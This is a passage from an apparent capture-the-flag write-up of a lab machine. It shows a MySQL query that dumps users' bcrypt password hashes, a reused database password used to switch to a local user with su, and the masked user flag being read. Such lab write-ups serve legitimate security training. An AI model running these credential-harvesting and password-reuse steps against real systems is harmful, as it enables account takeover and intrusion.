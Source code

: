 ```bash
| thm                          | double(24,8) | YES  |     | NULL              |                                               |
| tjm                          | double(24,8) | YES  |     | NULL              |                                               |
| salary                       | double(24,8) | YES  |     | NULL              |                                               |
| salaryextra                  | double(24,8) | YES  |     | NULL              |                                               |
| dateemployment               | date         | YES  |     | NULL              |                                               |
| dateemploymentend            | date         | YES  |     | NULL              |                                               |
| weeklyhours                  | double(16,8) | YES  |     | NULL              |                                               |
| import_key                   | varchar(14)  | YES  |     | NULL              |                                               |
| default_range                | int          | YES  |     | NULL              |                                               |
| default_c_exp_tax_cat        | int          | YES  |     | NULL              |                                               |
| national_registration_number | varchar(50)  | YES  |     | NULL              |                                               |
| fk_warehouse                 | int          | YES  |     | NULL              |                                               |
+------------------------------+--------------+------+-----+-------------------+-----------------------------------------------+
79 rows in set (0.01 sec)
```

```bash
mysql> select login,pass_crypted from llx_user;
+----------+--------------------------------------------------------------+
| login    | pass_crypted                                                 |
+----------+--------------------------------------------------------------+
| dolibarr | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm |
| admin    | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

But the hash of `dolibarr` user doesn't seem crackable. 

There's also a `larissa` user in the `home` folder:

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs$ cd /home/
www-data@boardlight:/home$ ls
larissa
```

And trying the password used in the database for larissa user of the system does work (because it's reused):

```bash
www-data@boardlight:/home$ su larissa
Password: serverfun2$2023!!
larissa@boardlight:/home$
```

The user.txt flag is available in larissa's home directory:

```bash
larissa@boardlight:/home$ cd larissa/
larissa@boardlight:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
larissa@boardlight:~$ cat user.txt 
55****************************ea
```
